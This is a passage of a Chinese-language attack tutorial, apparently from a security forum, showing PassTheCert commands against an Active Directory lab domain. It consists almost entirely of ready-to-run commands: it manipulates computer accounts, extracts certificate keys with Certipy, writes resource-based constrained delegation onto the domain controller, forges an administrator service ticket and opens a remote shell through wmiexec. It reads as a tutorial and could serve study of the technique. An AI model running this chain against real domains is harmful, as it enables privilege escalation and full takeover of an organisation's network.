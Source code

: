 ### 删除用户 | del\_computer

```shell
python3 passthecert.py -action del_computer -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -computer-name CPT003$ 
```

### 修改密码 | modify\_computer

```shell
ython3 passthecert.py -action modify_computer -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -computer-name NoPKI02$  -computer-pass QWEasdzxc
```

![x1N0AS.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-4aec607cd6a0e156a9207b227bc0ac4e38a7cf17.png)

### \* RBCD 攻击 | write\_rbcd

1. 提取证书中的密钥和证书信息  
    使用 Certipy 工具
    
    ```shell
    certipy cert -pfx NoPKI02.pfx -nokey -out NoPKI02.crt
    certipy cert -pfx NoPKI02.pfx -nocert -out NoPKI02.key 
    ```
    
    ![x1NBtg.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-955c5ab6110c75f4f02bf7cb37abf2b73938713a.png)
2. 创建机器账户
    
    ```shell
    python3 passthecert.py -action add_computer -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -computer-name NoPKI02$ -computer-pass 123.com
    ```

![x1Na0f.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-872038a7356955f67d4dd99ee240075601f71ba0.png)

3. 添加 RBCD 属性
    
    ```shell
    python3 passthecert.py -action write_rbcd -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -delegate-from NoPKI02$ -delegate-to DC01$
    ```
    
    ![x1Nd78.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-36faac900b409e01ccbaea6a338df461b0950d61.png)
4. 后渗透：申请TGT及攻击
    
    ```shell
    
    python3 getST.py -spn cifs/DC01.hack.lab -impersonate administrator hack.lab/NoPKI02\$:123.com -dc-ip 20.20.20.5
    ```

KRB5CCNAME=administrator.ccache python3 wmiexec.py -k hack.lab/administrator@DC01.hack.lab -no-pass -dc-ip 20.20.20.5
